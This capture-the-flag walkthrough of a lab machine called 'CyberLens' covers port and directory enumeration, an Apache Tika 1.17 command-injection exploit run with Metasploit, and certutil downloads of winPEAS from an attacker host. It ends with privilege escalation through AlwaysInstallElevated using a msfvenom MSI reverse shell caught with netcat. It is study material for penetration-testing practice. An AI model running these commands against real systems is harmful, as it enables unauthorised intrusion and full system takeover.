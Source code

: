 # CyberLens - Easy

* Add ```cyberlens.thm``` to ```/etc/hosts``` and start scan - ```nmap -T4 -p- -A -Pn -v cyberlens.thm```:

  * 80/tcp - http - Apache httpd 2.4.57 ((Win64))
  * 135/tcp - msrpc
  * 139/tcp - netbios-ssn
  * 445/tcp - microsoft-ds
  * 3389/tcp - ms-wbt-server
  * 5985/tcp - http - Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
  * 7680/tcp - tcpwrapped
  * 47001/tcp - http - Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
  * 49664/tcp - msrpc
  * 49665/tcp - msrpc
  * 49666/tcp - msrpc
  * 49667/tcp - msrpc
  * 49668/tcp - msrpc
  * 49669/tcp - msrpc
  * 49670/tcp - msrpc
  * 49677/tcp - msrpc
  * 61777/tcp - http - Jetty 8.y.z-SNAPSHOT

* Starting with web enumeration on port 80:

  ```sh
  gobuster dir -u http://cyberlens.thm -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x txt,php,html,bak,jpg,zip,bac,sh,png,md,jpeg -t 25
  # directory scanning
  ```

* The webpage itself does not seem to be anything out of the ordinary; we do have an interactive feature for 'CyberLens Image Extractor'

* Directory scanning gives us the same pages as we can see in source code - /js, /css/, /images, and other HTML pages

* Viewing the source code for the page, we can see that JS code used for this image extractor tool is included; same as the script 'image-extractor.js' in /js directory:

  ```js
  document.addEventListener("DOMContentLoaded", function() {
    document.getElementById("metadataButton").addEventListener("click", function() {
      var fileInput = document.getElementById("imageFileInput");
      var file = fileInput.files[0];
    
      var reader = new FileReader();
      reader.onload = function() {
        var fileData = reader.result;
    
        fetch("http://cyberlens.thm:61777/meta", {
          method: "PUT",
          body: fileData,
          headers: {
            "Accept": "application/json",
            "Content-Type": "application/octet-stream"
          }
        })
        .then(response => {
          if (response.ok) {
            return response.json();
          } else {
            throw new Error("Error: " + response.status);
          }
        })
        .then(data => {
          var metadataOutput = document.getElementById("metadataOutput");
          metadataOutput.innerText = JSON.stringify(data, null, 2);
        })
        .catch(error => {
          console.error("Error:", error);
        });
      };
    
      reader.readAsArrayBuffer(file);
    });
  });
  ```

* The JS code does the following:

  * the script listens for a click event on the button "Get Metadata"
  * when the button is clicked, it reads the contents of the uploaded image file
  * via a PUT request, the file data is sent to the server endpoint at <http://cyberlens.thm:61777/meta> in JSON form
  * on successful response, it is converted to JSON format and processed further; else an error message is shown
  * the metadata received from server is displayed on the webpage

* Enumerating RPC and SMB services:

  ```sh
  rpcclient -U "" cyberlens.thm
  # NT_STATUS_LOGON_FAILURE

  smbclient -N -L //cyberlens.thm
  # NT_STATUS_ACCESS_DENIED

  crackmapexec smb cyberlens.thm
  # no info
  ```

* On port 61777, the webpage shows a banner for 'Apache Tika 1.17 Server' and a documentation for endpoints and requests.

* We can search for vulns or exploits associated with this version of Apache

* [Rapid7 shows a header command injection exploit](https://www.rapid7.com/db/modules/exploit/windows/http/apache_tika_jp2_jscript/) associated with this version, we can give it a try:

  ```sh
  msfconsole

  use exploit/windows/http/apache_tika_jp2_jscript

  options

  set RHOSTS cyberlens.thm

  set LHOST 10.14.60.75

  set LPORT 61777

  exploit

  # the exploit works and we get a meterpreter shell
  # we can drop into a cmd shell
  shell
  ```

  ```cmd
  # in cmd shell
  cd C:\

  whoami
  # cyberlens\cyberlens

  whoami /priv
  # we have privilege SeChangeNotifyPrivilege enabled

  whoami /groups

  dir
  # we can enumerate for user flag

  cd C:\Users\CyberLens

  cd Desktop

  type user.txt

  cmdkey /list
  # no stored creds

  # we can check winpeas for basic enum

  # in attacker machine, host the file
  python3 -m http.server 8000

  # in victim cmd, fetch the file
  certutil.exe -urlcache -f http://10.14.60.75:8000/winPEASx64.exe winpeas.exe
  
  dir

  .\winpeas.exe
  ```

* From ```winpeas```, we also get a NetNTLMv2 hash for Cyberlens but we are not able to crack it using ```hashcat``` or ```john```

* ```winpeas``` also shows about ```AlwaysInstallElevated``` - we can confirm this using the following:

  ```sh
  reg query HKLM\Software\Policies\Microsoft\Windows\Installer

  reg query HKCU\Software\Policies\Microsoft\Windows\Installer
  ```

* Both of the above values are set to 1 - this means we can use a malicious '.msi' payload as exploit for privesc:

  ```sh
  # in attacker machine
  # create payload
  msfvenom -p windows/x64/shell_reverse_tcp lhost=10.14.60.75 lport=4445 -f msi > revshsetup.msi

  # setup listener
  nc -nvlp 4445

  # in victim cmd
  certutil.exe -urlcache -f http://10.14.60.75:8000/revshsetup.msi setup.msi

  # execute payload
  msiexec /quiet /qn /i setup.msi

  # we get reverse shell
  whoami
  # nt authority\system
  
  # get admin.txt from Administrator Desktop
  ```
